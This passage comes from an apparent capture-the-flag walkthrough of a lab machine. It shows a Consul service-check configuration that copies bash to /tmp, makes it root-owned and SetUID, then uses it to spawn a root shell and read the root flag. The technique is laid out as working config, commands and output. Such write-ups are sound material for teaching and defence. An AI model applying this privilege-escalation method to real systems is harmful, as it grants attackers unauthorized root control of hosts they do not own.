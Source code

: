 
The results of the scripts are available using `journalctl`, which requires
root to access. Still, after a few seconds, I’ll see `/tmp/0xdf-test` exists:

    
    
    developer@ambassador:/etc/consul.d$ ls -l /tmp/0xdf-test
    -rw-r--r-- 1 root root 0 Sep 14 17:25 /tmp/0xdf-test
    

#### Shell

To get a shell, I’ll update the check script file to include three checks:

    
    
    checks = [
      {
        id = "0xdf-1"
        name = "copy bash"
        args = ["cp", "/bin/bash", "/tmp/0xdf"]
        interval = "60s"
      },
      {
        id = "0xdf-2"
        name = "make it root"
        args = ["/usr/bin/chown", "root:root", "/tmp/0xdf"]
        interval = "60s"
      },
      {
        id = "0xdf-3"
        name = "suid bash"
        args = ["/usr/bin/chmod", "4777", "/tmp/0xdf"]
        interval = "60s"
      }
    ]
    

This will copy `bash` to `/tmp/0xdf`, make sure it’s owned by root, and then
make it SetUID. After reloading consul, the script runs, and it works:

    
    
    developer@ambassador:~$ ls -l /tmp/0xdf
    -rwsrwxrwx 1 root root 1183448 Sep 14 17:33 /tmp/0xdf
    

Running this (with `-p` to not drop privs) returns a root shell:

    
    
    developer@ambassador:~$ /tmp/0xdf -p
    0xdf-5.0#
    

And I can get the root flag:

    
    
    0xdf-5.0# cat root.txt
    739f3788************************
    
